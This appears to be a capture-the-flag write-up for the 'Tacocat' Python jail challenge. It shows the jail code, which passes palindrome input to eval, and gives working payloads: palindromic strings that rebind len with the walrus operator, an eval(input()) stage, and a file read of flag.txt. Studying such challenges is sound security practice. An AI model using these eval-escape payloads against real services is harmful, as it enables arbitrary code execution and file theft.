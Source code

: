 ```yaml
---
title: Tacocat
date: 2024-01-05T22:50:30+01:00
description: Writeup for Tacocat [37c3 Potluckctf 2023]
type: writeup
author: zenbassi
tags:
- misc
- python escape
draft: false
---
```

___

## Challenge Description

This is an upsolve, so I don't really remember, but it went something like _We
had no good ideas but we figured a python escape is always welcome_.

## Intuition

The code for the jail is given to us and albeit, very short:

```python
while True:
    x = input("palindrome? ")
    assert "#" not in x, "comments are bad"
    assert all(ord(i) < 128 for i in x), "ascii only kthx"
    assert x == x[::-1], "not a palindrome"
    assert len(x) < 36, "palindromes can't be more than 35 characters long, this is a well known fact."
    assert sum(x.encode()) % 256 == 69, "not nice!"
    eval(x)
```

So, we're free to give a string to `eval`, which will _evaluate_ any valid python expression.
This can give us the flag, or a shell, but the catch is that:
* the input must be a palindrome
* we cannot use comments
* sum of ASCII values for each character in the input has to be equal to 69 (modulo 256)

I had multiple ideas, including using string formatting to insert comments,
using tuples which are evaluated element by element and to use triple quotes
strings as a form of comment. Sadly I had no success with any of them, but I'm
happy to see that some of my ideas were in a solution by `pspaul` @
[FluxFingers](https://fluxfingers.net/), which I we will discuss below.

## Solution

The solution consists of multiple inputs formatted as such:

```
      +------------------------------------------------------+
      |                                                      |
      |              +-----------------------+               |
      |              |                       |               |
      v              v                       v               v
'''{buffer}',{reverse(expression)},''',{expression},'{reverse(buffer)}'''
|                                    | |       ^  | |                 | ^
|          this is a string          | |       |  | | this is a char  | |
+------------------------------------+ +-------+--+ +-------------^---+ |
                                               |                  |     |
     this is the evaluated expression ---------+                  |     |
                                                                  |     |
                   this is used to reach the desired sum ---------+     |
                                                                        |
                                                                        |
                                                                        |
                                                         empty string --+

eg. which would print 42 when evaluated:

eval("'''?',))24(tnirp(,''',(print(42)),'?'''")

This is a bit too long to be valid, but you get the point :P
```

Looking at it, this is a very neat way of abusing the greedy way in which
strings are evaluated in python - from left to right.

Now, the length restriction is problematic. We can bypass it if we assign
to `len` another function that processes a string or a list and returns a
values smaller than 36. Such functions are `all` or `any`. To achieve the
substitution we can utilise the `walrus operator` introduced in python 3.8 [^1].
The following two lines bypass the length check:

```python
'''k',)yna=:y(,''',(y:=any),'k'''
'''t',)y=:nel(,''',(len:=y),'t'''
```

Lastly we can just read the flag with:

```python
'''{}',))(tupni(lave,''',eval(input()),'{}'''
```

and then supplying something such as:

```python
print(open("flag.txt").read())
```

### Flag

`POTLUCK{1_@c7u@11y_do_n07_kn0w_th3_f1@g}`

## References

[^1]: https://docs.python.org/3/whatsnew/3.8.html
